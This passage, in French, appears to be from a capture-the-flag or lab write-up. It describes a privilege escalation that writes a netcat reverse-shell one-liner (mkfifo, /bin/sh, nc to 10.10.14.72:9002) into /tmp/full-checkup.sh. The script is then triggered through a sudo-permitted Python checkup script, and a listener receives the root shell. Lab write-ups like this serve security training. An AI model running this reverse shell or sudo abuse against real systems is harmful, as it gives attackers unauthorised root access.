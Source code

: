 On peut insérer un reverse shell dans `/tmp/full-checkup.sh`.

```
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.72 9002 >/tmp/f" > /tmp/full-checkup.sh
```

Puis :

```
chmod +x /tmp/full-checkup.sh
cd /tmp
sudo -S /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Sur notre machine attaquant, avec un netcat en écoute un reçoit la connexion entrante, en root.

```
$ nc -nlvp 9002
```
